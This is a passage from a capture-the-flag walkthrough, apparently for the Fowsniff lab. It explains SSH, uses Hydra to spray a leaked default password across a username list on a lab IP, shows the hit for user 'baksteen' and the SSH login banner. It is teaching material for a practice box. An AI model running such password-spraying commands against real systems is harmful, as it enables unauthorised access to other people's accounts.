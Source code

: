 **Key Discovery:** We found a temporary SSH password: `S1ck3nBluff+secureshell`

Type `QUIT` to exit the POP3 session.

## Phase 4: SSH Access

### What is SSH?
**SSH (Secure Shell)** is a protocol for securely connecting to remote computers. It's like remote desktop, but command-line based.

### Step 7: Finding Who Still Uses the Default Password

The email mentioned that everyone should change their SSH password. Let's see who hasn't changed it yet using **Hydra**.

**What is Hydra?** Hydra is a brute-force tool that tries multiple username/password combinations against various services.

*Install Hydra if you don't have it:*
```bash
sudo apt install hydra
```

Let's test the default SSH password against all usernames:

```bash
hydra -L fowsniff_usernames.txt -p 'S1ck3nBluff+secureshell' ssh://10.10.4.101
```

**Command breakdown:**
- `hydra` - The brute force tool
- `-L` - File containing usernames to try
- `-p` - Single password to test (note the quotes due to special characters)
- `ssh://10.10.4.101` - Target service and IP

**Output:**
```bash
Hydra v9.0 (c) 2019 by van Hauser/THC
[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries (l:9/p:1), ~1 try per task
[DATA] attacking ssh://10.10.4.101:22/
[22][ssh] host: 10.10.4.101   login: baksteen   password: S1ck3nBluff+secureshell
1 of 1 target successfully completed, 1 valid password found
```

Excellent! User `baksteen` hasn't changed their password yet.

### Step 8: SSH Connection

Let's connect via SSH:

```bash
ssh baksteen@10.10.4.101
```

Enter the password when prompted: `S1ck3nBluff+secureshell`

**SSH Session Output:**
```bash
                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
```